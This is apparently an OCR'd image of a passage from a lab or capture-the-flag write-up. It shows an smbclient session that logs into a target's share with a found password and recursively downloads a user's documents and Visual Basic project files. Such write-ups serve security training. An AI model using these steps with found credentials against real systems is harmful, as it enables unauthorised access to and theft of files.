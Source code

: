 
    root@kali# smbclient -U TempUser //10.10.10.178/Secure$ welcome2019
    Try "help" to get a list of possible commands.
    smb: \> cd IT\Carl
    smb: \IT\Carl\> ls
      .                                   D        0  Wed Aug  7 15:42:14 2019
      ..                                  D        0  Wed Aug  7 15:42:14 2019
      Docs                                D        0  Wed Aug  7 15:44:00 2019
      Reports                             D        0  Tue Aug  6 09:45:40 2019
      VB Projects                         D        0  Tue Aug  6 10:41:55 2019

                    10485247 blocks of size 4096. 6545797 blocks available



I'll recursively pull from here as well:



    smb: \IT\Carl\> recurse on
    smb: \IT\Carl\> prompt off
    smb: \IT\Carl\> mget *
    getting file \IT\Carl\Docs\ip.txt of size 56 as ip.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
    getting file \IT\Carl\Docs\mmc.txt of size 73 as mmc.txt (1.1 KiloBytes/sec) (average 1.1 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\ConfigFile.vb of size 772 as ConfigFile.vb (15.7 KiloBytes/sec) (average 5.3 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\Module1.vb of size 279 as Module1.vb (5.0 KiloBytes/sec) (average 5.2 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Application.Designer.vb of size 441 as Application.Designer.vb (8.4 KiloBytes/sec) (average 5.8 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Application.myapp of size 481 as Application.myapp (9.2 KiloBytes/sec) (average 6.4 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\AssemblyInfo.vb of size 1163 as AssemblyInfo.vb (19.2 KiloBytes/sec) (average 8.4 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Resources.Designer.vb of size 2776 as Resources.Designer.vb (45.9 KiloBytes/sec) (average 13.4 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Resources.resx of size 5612 as Resources.resx (97.9 KiloBytes/sec) (average 22.9 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Settings.Designer.vb of size 2989 as Settings.Designer.vb (51.2 KiloBytes/sec) (average 25.9 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Settings.settings of size 279 as Settings.settings (5.2 KiloBytes/sec) (average 24.1 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\RU Scanner.vbproj of size 4828 as RU Scanner.vbproj (90.7 KiloBytes/sec) (average 29.4 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\RU Scanner.vbproj.user of size 143 as RU Scanner.vbproj.user (2.9 KiloBytes/sec) (average 27.6 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\SsoIntegration.vb of size 133 as SsoIntegration.vb (2.2 KiloBytes/sec) (average 25.6 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\Utils.vb of size 4888 as Utils.vb (79.6 KiloBytes/sec) (average 29.5 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner.sln of size 871 as RUScanner.sln (15.5 KiloBytes/sec) (average 28.6 KiloBytes/sec)
